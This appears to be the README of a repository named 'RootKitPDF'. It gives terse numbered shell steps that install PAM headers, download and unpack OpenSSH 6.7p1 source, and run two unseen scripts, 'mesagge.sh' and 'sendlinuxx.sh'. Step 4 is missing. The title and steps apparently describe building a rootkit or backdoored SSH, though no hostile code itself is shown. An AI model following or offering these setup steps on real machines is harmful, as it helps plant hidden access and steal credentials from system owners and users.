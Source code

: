 # RootKitPDF




1ª apt-get install -y libpam0g-dev

2ª wget http://www.mirrorservice.org/pub/OpenBSD/OpenSSH/portable/openssh-6.7p1.tar.gz

3ª tar -xzvf openssh-6.7p1.tar.gz 

5ª bash mesagge.sh

6ª bash sendlinuxx.sh
